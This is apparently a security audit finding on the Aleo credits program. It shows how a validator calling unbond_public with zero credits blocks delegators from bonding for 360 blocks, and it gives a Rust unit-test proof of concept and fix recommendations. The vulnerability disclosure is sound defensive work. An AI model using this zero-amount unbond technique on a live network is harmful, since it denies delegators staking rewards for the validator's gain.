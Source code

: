 Special Felt Alligator

Medium

# Validator can block existing delegators from increasing their delegations and new delegators to bond at no cost

## Summary
A validator can block delegators already bonded to the validator from increasing their delegations and new delegators from bonding to the delegator at no cost, because `unbond_public` allows unbonding of 0 credits
## Vulnerability Detail
When a validator is in the committee, the self bond amount is > 100 credits and the total delegated amount is > 10M. The validator can use `unbond_public` to unbond a certain amount of credits or to force unbond a delegator. However, this function allows the validator to set the `amount` to unbond to `0` , which means that the validator can initialize the `unbond[]` mapping with 0 credits. 
```java
@=> // There is no previous check for r2, hence it can be zero
        /* Unbonding */

        // Retrieve or initialize the unbonding state.
        get.or_use unbonding[r5.validator] r4 into r38;
        // Increment the unbond amount.
        // Note: If the addition overflows, reject the transition.
        add r38.microcredits r2 into r39;
        // Set the updated unbond state.
        cast r39 r3 into r40 as unbond_state;
        // Store the new unbonding state.
        set r40 into unbonding[r5.validator];
```
When the `unbond[]` state is active for the validator, no new delegations can be made to it because of the following check in [`bond_public`](https://github.com/sherlock-audit/2024-05-aleo/blob/55b2e4a02f27602a54c11f964f6f610fee6f4ab8/snarkVM/synthesizer/program/src/resources/credits.aleo#L391-L394)
```java
    // Check if the validator exists in the unbonding state.
    contains unbonding[r1] into r20;
    // Ensure the validator currently is not unbonding.
    assert.eq r20 false;
```
This means that no new delegator will be able to bond to the validator, and existing delegators will be denied from increasing their bonds (in order to receive more staking awards).

After 360 blocks, the `unbond[]` state of the validator can be removed by calling `claim_unbond_public`
```java
finalize claim_unbond_public:
    // Input the staker's address.
    input r0 as address.public;

    // Get the unbond state for the address, or fail if it does not exist.
    get unbonding[r0] into r1;
    // Determine if unbonding is complete.
    gte block.height r1.height into r2;
    // Enforce the unbonding is complete.
    assert.eq r2 true;

    /* Withdraw */

    // Get the withdrawal address for the address.
    get withdraw[r0] into r3;

    /* Account */

    // Add the unbonded amount to the withdrawal address public balance.
    // Increments `account[r3]` by `r1.microcredits`.
    // If `account[r3]` does not exist, 0u64 is used.
    // If `account[r3] + r1.microcredits` overflows, `claim_unbond_public` is reverted.
    get.or_use account[r3] 0u64 into r4;
    add r1.microcredits r4 into r5;
    set r5 into account[r3];

    /* Unbonding */

    // Remove the unbond state for the staker.
@=>    remove unbonding[r0];

    // Check if the staker is still bonded.
    contains bonded[r0] into r6;
    // Ends the `claim_unbond_public` logic.
    branch.eq r6 true to end;

    /* Withdraw */

    // If the caller is no longer bonded, remove the withdrawal address.
    remove withdraw[r0];

    // The terminus.
    position end;
```
However, the validator can just repeat the call to `unbond_public` with 0 as input and cause this DoS for the next 360 blocks.
## Impact
DoS.  Existing delegators should be able to increase their delegations as long as the validator is in the committee so that they can increase their staking rewards. 
The benefit that the validator gets from this is that their % share of stake does not fall due to new delegations. Hence, they retain higher staking rewards.

## Coded PoC
```rust
#[test]
fn test_unbond_delegator_as_validator() {
    let rng = &mut TestRng::default();

    // Construct the process.
    let process = Process::<CurrentNetwork>::load().unwrap();

    // Initialize a new finalize store.
    let finalize_store = FinalizeStore::<CurrentNetwork, FinalizeMemory<_>>::open(None).unwrap();

    // Initialize the validators and delegators.
    let (validators, delegators) = initialize_stakers(&finalize_store, 2, 1, rng).unwrap();
    let mut validators = validators.into_iter();
    let (validator_private_key_1, (validator_address_1, _, withdrawal_private_key_1, withdrawal_address_1)) =
        validators.next().unwrap();
    let (delegator_private_key, (delegator_address, _)) = delegators.first().unwrap();

    // Bond the validator
    let validator_amount = MIN_VALIDATOR_STAKE;
    bond_validator(
        &process,
        &finalize_store,
        &validator_private_key_1,
        &withdrawal_address_1,
        validator_amount,
        TEST_COMMISSION,
        rng,
    )
    .unwrap();

    // Bond the delegator.
    let delegator_amount = MIN_DELEGATOR_STAKE;
    bond_public(
        &process,
        &finalize_store,
        delegator_private_key,
        &validator_address_1,
        delegator_address,
        delegator_amount,
        rng,
    )
    .unwrap();

    let block_height = rng.gen_range(1..100);

    // validator self-unbonds 0 credits, to set the unbond state
    unbond_public(&process, &finalize_store, &withdrawal_private_key_1, &validator_address_1, 0u64, block_height, rng)
        .unwrap();

    // existing delegator cannot bond to the validator, as unbond state exists
    assert!(bond_public(
        &process,
        &finalize_store,
        delegator_private_key,
        &validator_address_1,
        delegator_address,
        delegator_amount,
        rng,
    )
    .is_err());
}
```

To run the test :
1. Copy the above code into `test_credits.rs`
2. Click on `Run Test`
## Code Snippet

## Tool used

Manual Review

## Recommendation
Let the existing delegators increase their delegations even when the validator is in the unbonding state, as long as the validator is in the committee.
Alternatively, check whether the `amount` in `unbond_public` call is at least 1 credit if the validator is self-unbonding